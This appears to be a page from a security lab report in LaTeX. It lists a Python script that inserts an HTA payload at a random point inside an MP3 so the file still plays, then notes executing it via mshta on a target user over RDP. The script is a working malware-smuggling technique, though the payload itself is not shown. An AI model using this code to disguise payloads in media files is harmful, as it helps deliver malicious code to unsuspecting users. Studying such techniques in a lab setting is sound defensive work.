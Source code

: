 \documentclass[a4paper]{article}
\newcommand{\abc}{\hfill \break}
\begin{document}
\begin{lstlisting}[language=python]
import random

def insert_file(target_path, payload_path, output_path):
    try:
	# reading the target file
        with open(target_path, 'rb') as target_file:
            target_content = target_file.read()

	# reading the payload file
        with open(payload_path, 'rb') as payload_content:
            payload = payload_content.read()

        target_size = len(target_content)

        if target_size == 0:
            print("Error: Target file is empty.")
            return

	# getting the middle of the file
        middle_index = target_size // 2
	# getting rage for the random offset
        random_offset_range = target_size // 4
	# getting the radom offset
        random_offset = random.randint(-random_offset_range,
                                       random_offset_range)

	# calcuating the insertion point
        insertion_point = max(
            0, min(target_size, middle_index + random_offset))
	# inserting the payload into the binary
        new_content = target_content[:insertion_point] + \
            payload + target_content[insertion_point:]

	# writing the data to a new file
        with open(output_path, 'wb') as output_file:
            output_file.write(new_content)

        print(f"File '{payload_path}' inserted at position {
              insertion_point} in '{target_path}' and saved as '{output_path}'.")

    except FileNotFoundError:
        print("Error: One or both of the input files were not found.")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target_mp3 = "./The_link_orginal.mp3"
    file_to_insert = "payload.hta"
    output_mp3 = "./The_link.mp3"

    insert_file(target_mp3, file_to_insert, output_mp3)
\end{lstlisting}\newpage \abc
Figures 31 to 33 show the properties of the edited file, as well as its ability to be played back, and demonstrate the execution of the file via \texttt{mshta} on the target user through \texttt{RDP}, which I used to simply drag and drop the file onto the target.
\begin{figure}[ht]
	\texttt{[image: images/link\_properties.png]}
	\centering
	\caption{Showing the properties of the mp3 file}
\end{figure}
\end{document}
